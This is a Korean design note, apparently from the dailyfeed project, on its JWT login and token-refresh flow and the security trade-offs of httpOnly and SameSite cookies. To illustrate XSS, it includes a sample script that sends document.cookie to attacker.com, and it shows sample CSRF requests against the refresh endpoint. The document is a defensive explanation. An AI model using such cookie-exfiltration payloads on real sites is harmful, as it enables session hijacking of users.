



# 인증 흐름

직접 작성한 주관적인 설명 문서입니다. 다만 일부 개념 설명에 살을 붙이기 위해 claude 를 통해 자료조사를 조금 수행했습니다.<br/>
<br/>

## login
사용자가 dailyfeed-frontend 에 로그인 요청을 할때 member-svc 에는 id/password 를 보내고, member-svc 는 accessToken, refreshToken 을 응답해줍니다.


<br/>
<br/>


(1) 로그인 요청 
- `dailyfeed-frontend` 에서 `dailyfeed-member` 로 `POST /api/authentication/login` 요청을 합니다.

(2) 서버 응답 : member 서버인 `dailyfeed-member` 는 다음의 토큰들을 `dailyfeed-frontend` 에 응답 헤더/쿠키로 내려줍니다.
- accessToken : Response Header 내에 `Authorization: Bearer {accessToken}` 형식으로 전달
- refreshToken : Cookie (httpOnly) 형식으로 전달

<br/>

## accessToken 만료시 - token refresh 작업 수행 후 작업 재개
accessToken 의 기한이 만료되었을 때의 시나리오입니다.<br/>

frontend 가 사용자의 요청을 수행하던 중 accessToken 이 만료되었음을 확인하면 수행하던 작업을 멈추고 토큰 refresh 요청을 수행해 새로운 accessToken, refreshToken 을 받아온 후 새로 받아온 토큰들을 이용해 하던 작업을 마무리 합니다.

<br/>

**e.g.**<br/>
다음은 사용자가 dailyfeed-frontend 를 통해 글 작성(`POST /api/posts`)요청을 수행했을 때 accessToken 이 만료되어서 토큰 새로고침(refresh)후 글 작성 작업을 마무리하는 과정에 대한 그림입니다.


<br/>
<br/>

**(1) `POST /api/authentication/login`**
- 사용자가 로그인 요청을 하고, accessToken, refreshToken 을 응답으로 받습니다.

**(2) `POST /api/posts`**
- 사용자가 글 작성을 수행합니다.
- `dailyfeed-frontend-svc` 는 `dailyfeed-content-svc` 로 `POST /api/posts` 요청을 수행합니다.

**(3) `GET /api/members/summary`**
- `dailyfeed-content-svc` 는 자신에게 온 요청이 인증된 사용자의 합당한 요청인지 파악해야 하므로 member 서버에 해당 사용자의 인증을 체크합니다.
- `dailyfeed-content-svc` 에서 `dailyfeed-member-svc` 로 사용자 인증 여부, 합당한 사용자인지 여부를 체크하기 위해 `GET /api/members/summary` 을 수행하며, `dailyfeed-frontend-svc` 가 보낸 JWT 그대로 전파합니다.

**(4) `401 UnAuthorized, ResponseHeader {X-Token-Refresh-Needed: true}`** 
- `dailyfeed-member-svc` 에서 JWT 를 체크해본 결과 해당 토큰이 만료되었다는 사실을 ResponseHeader 를 통해 전달받습니다.
- `dailyfeed-member-svc` 에서 `dailyfeed-content-svc`으로 `401 UnAuthorized, ResponseHeader {X-Token-Refresh-Needed: true}` 을 헤더로 전달받습니다.

**(5) `dailyfeed-frontend-svc` 로 응답헤더 전파**
- `dailyfeed-content-svc` → `dailyfeed-frontend-svc` 으로 `401 UnAuthorized, ResponseHeader {X-Token-Refresh-Needed: true}` 을 헤더를 전파합니다.

**(6) `POST /api/token/refresh` : 토큰 새로고침 수행**
- 토큰 새로고침을 수행합니다.
- `dailyfeed-frontend-svc` 는 토큰 새로고침을 위해 `POST /api/token/refresh` 을 수행합니다.
- 정상적으로 완료되면 새롭게 발급된 accessToken, refreshToken 을 전달 받습니다. 이때 예전 refreshToken 은 폐기(revoked)됩니다.

**(7) `POST /api/posts`**
- `dailyfeed-frontend-svc` 는 멈춰두었던 글쓰기 작업을 재개합니다.

<br/>

## refreshToken 만료시 - token 무효화 + /login 리다이렉트
refreshToken 이 만료되었을 경우의 시나리오입니다.<br/>

refreshToken 이 만료되는 경우는 오랫동안 로그인하지 않았다가 접속 시에 refreshToken 의 기한이 만료된 경우를 예로 들 수 있습니다. refreshToken 은 30일을 만료기한으로 설정했습니다. 즉 30일 동안은 로그인이 풀리지 않습니다. 다만, 그 동안 accessToken 의 만료기한, 서버 비공개키의 만료기한이 자주 도래하기에 오래된 토큰의 경우 refresh 를 수행해 새로운 토큰을 발급받은 후 그 다음 요청을 수행할 수 있습니다.


<br/>

**e.g.**<br/>
다음은 사용자가 dailyfeed-frontend 를 통해 글 작성(`POST /api/posts`)요청을 수행했을 때 refreshToken 이 만료되어서 재로그인(relogin)하도록 유도되는 과정에 대한 그림입니다.


<br/>

## 참고) 예외케이스 - 25일 동안 접속하지 않다가 접속시
refreshToken 은 30일을 만료기한으로 설정했습니다.<br/>

만약 30일이 지나지 않고 25일 정도 지난 후에 접속할 경우 서버의 비공개키가 새로고침되어 있는 상태이기에 이런 경우에는 서버의 새로운 비공개키로 새로 암호화된 새로운 키를 발급받는 `POST /api/token/refresh`를 수행하도록 유도됩니다.<br/>
<br/>

## 참고) 예외케이스 - 2시간 5분 뒤에 접속 시
accessToken 은 2시간을 만료기한으로 지정했습니다. 따라서 로그인 후 2시간이 지나면 accessToken 은 만료(Expired)됩니다. <br/>

`dailyfeed-member-svc`
- `401 UnAuthorized, ResponseHeader {X-Token-Refresh-Needed: true}` 을 응답헤더로 리턴합니다. 

`dailyfeed-frontend-svc`
- `401 UnAuthorized, ResponseHeader {X-Token-Refresh-Needed: true}` 을 응답헤더로 받으면 
- 그 즉시 `POST /api/token/refresh` 를 통해 토큰 새로고침 (token refresh)을 수행해서 새로운 토큰을 발급받으면 됩니다.

<br/>

## 참고) 예외케이스 - 1시간 5분 뒤에 접속 시
서버의 비공개 키는 1시간에 한번씩 주기적으로 새로고침합니다.<br/>

따라서 유효한 클라이언트의 JWT 의 내용도 1시간에 한번씩 새로운 JWT 로 새로고침되어야 합니다. 이 작업을 서버에서 수행하지 않고, 클라이언트에서 어떤 요청을 수행했다가 서버로부터 `401 UnAuthorized, ResponseHeader {X-Token-Refresh-Needed: true}` 응답헤더를 받으면, 토큰 새로고침 (token refresh)을 수행해서 새로운 토큰을 발급받은 후 해당 요청을 계속 진행하면 됩니다.<br/>
<br/>


## 참고) httpOnly cookie 의 보안상 이점
### 1. XSS(Cross-Site Scripting) 공격 방어

XSS 공격으로 악성 스크립트가 주입되어도 httpOnly 쿠키는 탈취할 수 없습니다.
```html
// 공격자가 주입한 악성 스크립트  
<script>  
  // httpOnly 쿠키는 접근 불가  
  fetch('https://attacker.com/steal?cookie=' + document.cookie);  
</script>
```
- **일반 쿠키**: Access Token 같은 민감 정보가 탈취될 수 있음 
- **httpOnly 쿠키**: JavaScript로 접근 불가하므로 안전

<br/>

### 2. 자동으로 HTTP 요청에 포함
브라우저가 자동으로 쿠키를 요청 헤더에 포함시키므로, 클라이언트 측 JavaScript에서 토큰을 관리할 필요가 없습니다.
```plain
GET /api/user HTTP/1.1  
Cookie: refreshToken=eyJhbGc...
```
<br/>


## 참고) httpOnly cookie 는 코드/공격자가 읽을수 있는지
> 이 부분은 Claude 를 통해 자료를 조사한 내용/예제를 추가했습니다. 

httpOnly cookie 는 javascript로도 공격자도 읽을수 없습니다.<br/>
로그인 시 또는 토큰 새로고침 시에만 응답 Cookie 를 member-svc 가 심어줄 수 있습니다.<br/>

다만, CSRF 를 Same Site 로 설정하는 것을 권장합니다. 현재 `dailyfeed-member-svc` 는 Same Site = Strict 로 설정되어 있습니다. (`local-was` 프로필 제외)<br/>

- 브라우저에서 `POST /api/token/refresh` 를 수행할 경우가 있는데 이런 경우에 대한 대응책으로 SameSite 설정을 `Strict` 로 설정해서 접근하는 경우를 차단하기 위해 SameSite=Strict 로 설정해두었습니다.

**SameSite=Strict 란?**<br/>
공격자의 사이트에서 시작된 요청이 우리 사이트로 갈 때, 브라우저가 자동으로 쿠키를 포함하는 것을 차단합니다. 즉 Cookie 를 추가하거나 읽는 것을 브라우저가 할수 없으며, 쿠키를 심어둔 곳(서버)에서만 읽거나 조작할 수 있도록 하는 설정입니다.<br/>
SameSite 는 서버가 아니라 브라우저에서 작동합니다. 다만 서버측에서 SameSite 를 Strict 로 세팅해두면 브라우저는 쿠키를 포함할지 말지를 결정해서 쿠키의 포함 여부를 결정하빈다.

e.g. SameSite = Strict or Lax 일때 CSRF 공격
```http
# attacker.com에서 요청
POST /api/token/refresh HTTP/1.1
Host: myapp.com
Origin: https://attacker.com
# Cookie 헤더 없음! ❌ 브라우저가 차단

→ 서버: "인증 토큰이 없네, 401 Unauthorized"
→ 공격 실패 ✅
```

e.g. SameSite = None 일때 CSRF 공격
```http
# attacker.com에서 요청
POST /api/token/refresh HTTP/1.1
Host: myapp.com
Origin: https://attacker.com
Cookie: refreshToken=abc123  ✅ 브라우저가 쿠키 포함

→ 서버: "유효한 토큰이네, 새 accessToken 발급!"
→ 공격 성공 ❌
```
<br/>


비교
> 이 부분은 Claude 를 통해 자료를 조사한 내용을 추가했습니다.

| 시나리오                             | SameSite 없음       | SameSite=Lax      | SameSite=Strict   |
| -------------------------------- | ----------------- | ----------------- | ----------------- |
| attacker.com → POST /api/refresh | ✅ 쿠키 포함 → 공격 성공 ❌ | ❌ 쿠키 차단 → 공격 실패 ✅ | ❌ 쿠키 차단 → 공격 실패 ✅ |
| attacker.com → GET /api/data     | ✅ 쿠키 포함           | ❌ 쿠키 차단           | ❌ 쿠키 차단           |
| gmail.com → GET /dashboard       | ✅ 쿠키 포함           | ✅ 쿠키 포함 (좋은 UX)   | ❌ 쿠키 차단 (나쁜 UX)   |
| myapp.com → POST /api/refresh    | ✅ 쿠키 포함           | ✅ 쿠키 포함           | ✅ 쿠키 포함           |


## 참고) httpOnly cookie 의 보안 취약 여부
> 이 부분은 Claude 를 통해 자료를 조사한 내용을 추가했습니다.

httpOnly cookie 를 사용할 경우 다음의 보안 취약성이 존재합니다.

1\. **CSRF(Cross-Site Request Forgery) 공격** 
- httpOnly 쿠키는 자동으로 요청에 포함되므로 CSRF에 취약
- 대응: `SameSite` 속성 추가 필요

2\. **Man-in-the-Middle(MITM) 공격**
- HTTP로 전송 시 쿠키가 노출될 수 있음
- 대응: `Secure` 속성으로 HTTPS만 허용
        
3\. **서버 측 XSS**
- 서버에서 쿠키를 로깅하거나 부적절하게 처리하면 노출 가능

>**CSRF**<br/>

이 중 CSRF 의 경우 Same Site 를 'Strict' 로 설정하면 보완 가능합니다. 현재 dailyfeed 프로젝트에서는 `local-was` 에서만 Same Site 설정을 off 해두었고, 그 외의 모든 Profile 에서는 Same Site 가 'strict'로 설정되도록 해서 CSRF 취약점을 대해 막아둔 상태입니다. 

`local-was` 는 로컬에서 jar 로 각각의 서비스를 구동시키고 `docker-compose.yaml` 로 MySQL,Kafka, Redis, MongoDB 를 구동하는 환경인데, 이 환경에서는 Same Site 를 'strict'로 할수 없기에 부득이하게 `Lax` 로 열어두었습니다. `local-was` 는 로컬 PC 개발환경이며, 외부에서 접속하는 것이 아니라 개발시 디버깅을 위한 환경이기에 보안상의 문제는 없습니다.<br/>
<br/>

>**Man in the Middle (MITM) 공격**<br/>

**서비스간 통신**<br/>
통신 내용이 평문(http)으로 노출될 때 신호를 탈취해서 그대로 탈취되는 경우를 의미하는데 현재 `dailyfeed-frontend-svc`와 백엔드 서비스들은 모두 istio 가 injection 되어 있으며 PeerAuthentication 설정을 통해 https 통신을 하도록 강제되어 있습니다. 따라서 각각의 pod 내의 istio proxy container 가 통신을 암호화해서 https 통신을 하기 때문에 서비스간 통신에는 평문이 노출될 일이 없습니다.<br/>

**단말 ↔︎ dailyfeed-frontend-svc**<br/>
브라우저에서 `daliyfeed-content-svc` 와의 통신을 수행 시에는 http 기반으로 이뤄지고 있는데, 이 부분은 개발 환경 내에서 수행하고 있는 것이기에 별도로 Let's Encrypt 같은 기관을 통해서 인증서를 마련하고 ingress 등을 통해 https 를 지원할까 하고 생각은 했지만, 로컬에서 k8s 를 구동해서 확인하는 환경일 뿐인데 너무 많은 불필요한 작업이 있는 것 같아 개발환경이 복잡해질 수 있기 때문에 이 부분은 그냥 http 통신 그대로 두었습니다.<br/>
<br/>


## 참고) 토큰 저장 방식 별 보안성
> 이 부분은 Claude 를 통해 자료를 조사한 내용을 추가했습니다.

|저장 방식|JavaScript 접근|XSS 공격 시|CSRF 공격 시|구현 난이도|권장 용도|
|---|---|---|---|---|---|
|**localStorage**|✅ 가능|❌ **탈취됨**|✅ 안전|쉬움|❌ 비권장|
|**sessionStorage**|✅ 가능|❌ **탈취됨**|✅ 안전|쉬움|⚠️ 단기 토큰만|
|**일반 Cookie**|✅ 가능|❌ **탈취됨**|❌ 취약|쉬움|❌ 비권장|
|**httpOnly Cookie**|❌ 불가능|✅ **안전**|❌ 취약|중간|⚠️ CSRF 대응 필요|
|**httpOnly + SameSite**|❌ 불가능|✅ **안전**|✅ **안전**|중간|✅ **Refresh Token 권장**|
|**Memory (React State)**|✅ 가능 (컴포넌트 내)|⚠️ 상대적 안전|✅ 안전|어려움|✅ Access Token 권장|

<br/>


## 참고) readonly cookie 를 탈취해서 refresh 요청을 할수 있는지
cookie 는 사용자가 javascript 를 통해 접근할수 없도록 httpOnly 로 설정해둔 상태입니다. 따라서 토큰 탈취 후 브라우저 내에서 별도의 요청을 axios 등을 통해 수행하는 것은 불가능합니다.


## 참고) 프로젝트 내 refresh 관련 로직
다음 API 에 대한 로직들을 확인해보면 모두 refreshToken 을 httpOnly 로 설정하고 있습니다.
- /api/token/refresh (TokenController)
- /api/authentication/login (AuthenticationController, AuthenticationService)

<br/>